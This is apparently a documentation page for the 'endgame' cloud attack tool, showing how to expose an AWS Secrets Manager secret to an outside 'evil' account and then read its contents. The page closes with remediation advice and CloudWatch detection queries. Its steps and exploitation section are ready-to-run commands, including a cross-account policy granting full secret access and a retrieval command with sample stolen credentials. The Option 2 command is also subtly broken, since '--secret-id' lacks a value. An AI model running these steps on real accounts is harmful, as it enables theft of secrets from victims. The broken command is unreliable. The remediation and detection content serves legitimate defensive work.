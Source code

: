 # Secrets Manager

## Steps to Reproduce

* **Option 1**: To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service secretsmanager --name test-resource-exposure
```

* **Option 2**: To expose the resource using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure
export EVIL_POLICY='{"Version": "2012-10-17", "Statement": [{"Sid": "AllowCurrentAccount", "Effect": "Allow", "Principal": {"AWS": "arn:aws:iam::999988887777:user/evil"}, "Action": "secretsmanager:*", "Resource": ["arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"]}]}'

aws secretsmanager put-resource-policy --secret-id --resource-policy $EVIL_POLICY
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws secretsmanager get-resource-policy --secret-id test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::999988887777:user/evil"
      },
      "Action": "secretsmanager:*",
      "Resource": [
        "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"
      ]
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command in the victim account:

```bash
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure

aws secretsmanager get-secret-value --secret-id $VICTIM_RESOURCE 
```

* Observe that the output resembles the following:

```json
{
  "ARN": "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure",
  "Name": "test-resource-exposure",
  "VersionId": "DOGECOIN",
  "SecretString": "{\n  \"username\":\"doge\",\n  \"password\":\"coin\"\n}\n",
  "VersionStages": [
    "AWSCURRENT"
  ],
  "CreatedDate": 1523477145.713
}
```

## Remediation

* **Trusted Accounts Only**: Ensure that Secrets Manager secrets are only shared with trusted accounts, and that the trusted accounts truly need access to the secret.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Secrets Manager secrets. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-secrets-manager) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Secrets**: Tightly control access to the following IAM actions:
  - [secretsmanager:PutResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_PutResourcePolicy.html): _Enables the user to attach a resource policy to a secret._
  - [secretsmanager:GetSecretValue](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetSecretValue.html): _Enables the user to retrieve and decrypt the encrypted data._
  - [secretsmanager:DeleteResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_DeleteResourcePolicy.html): _Enables the user to delete the resource policy attached to a secret._
  - [secretsmanager:GetResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetResourcePolicy.html): _Enables the user to get the resource policy attached to a secret._
  - [secretsmanager:ListSecrets](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_ListSecrets.html): _Enables the user to list the available secrets._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='secretsmanager.amazonaws.com' AND (eventName='PutResourcePolicy' or eventName='DeleteResourcePolicy')
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='secretsmanager.amazonaws.com' AND (eventName='PutResourcePolicy' and requestParameters.resourcePolicy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws secretsmanager get-resource-policy](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-resource-policy.html)
* [aws secretsmanager get-secret-value](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-secret-value.html)
* [aws secretsmanager put-resource-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/put-resource-policy.html)
